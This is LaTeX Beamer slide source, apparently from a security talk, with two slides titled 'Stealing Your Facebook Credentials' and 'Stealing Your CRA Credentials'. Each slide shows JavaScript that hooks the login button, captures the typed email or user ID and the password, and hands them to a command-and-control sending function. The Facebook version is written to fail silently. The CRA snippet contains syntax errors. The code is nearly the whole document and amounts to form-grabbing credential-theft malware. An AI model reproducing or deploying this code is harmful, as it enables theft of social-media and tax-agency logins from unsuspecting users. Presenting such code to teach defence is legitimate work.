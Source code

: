 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{Stealing Your Facebook Credentials}
  \begin{center}
    \begin{tcolorbox}[title=facebook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        document.getElementById('loginbutton').getElementsByTagName('input')[0].addEventListener('click',function(){
		  try {
			let email = document.getElementById('email'); //Get Email Address Element
			let pass = document.getElementById('pass');   //Get Password Element
			if (email.value != '' && pass.value != ''){   //Check if data was entered in login fields
                          let data = {                                //Capture timestamp, site, user and pass
				"auth": {
				  timestamp: Date.now(),
				  site: "facebook.com",
				  user: email.value,
				  pass: pass.value
				}
			  };
			  cnc(data, function(data){                  //Send the data to to CnC server
				return true;
			  });
                          return true;
                       }
	               return false;
		  } catch(error){
			return false;                                //Try to fail silently
		  }
	    });
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}


\begin{frame}[fragile]{}
  \frametitle{Stealing Your CRA Credentials}
  \begin{center}
    \begin{tcolorbox}[title=cra.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        function get_user_pass(){
	      try {
		    data = {
			  "auth": {
				site: "cms-sgj.cra-arc.gc.ca",
				user: document.getElementById('userid').value;,
				pass: document.getElementById('password').value;,
				timestamp: Date.now()
			  }
		    };
		    return data;
	      } catch(error){
		    return false;
	      }
        }

        document.getElementById('submitButton').addEventListener('click', function(){
		  try {
			post_cnc(get_user_pass(), function(data){
			  return true;
			});
		  } catch(error){
			return false;
		  }
	    });
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
